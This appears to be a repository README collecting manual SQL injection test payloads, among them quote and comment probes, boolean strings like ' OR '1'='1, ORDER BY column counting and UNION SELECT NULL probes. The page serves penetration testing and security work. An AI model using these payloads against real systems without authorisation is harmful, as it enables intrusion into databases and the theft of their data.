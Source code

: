 # SQL Injection Manual Testing Tools

Comprehensive collection of manual SQL injection testing techniques and payloads for various database systems.

## Basic SQL Injection Detection

### Error-Based Detection
```sql
-- Single quote test
'

-- Double quote test
"

-- Numeric test
1'
1"
1`

-- Comment injection
' --
' #
' /*
'%00

-- Logic tests
' OR '1'='1
' OR 1=1--
' AND 1=1--
' AND 1=2--
```

### Union-Based Detection
```sql
-- Column count detection
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
...

-- Union injection testing
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--

-- Data type testing
' UNION SELECT 'a',NULL,NULL--
' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL,NULL,'a'--
```
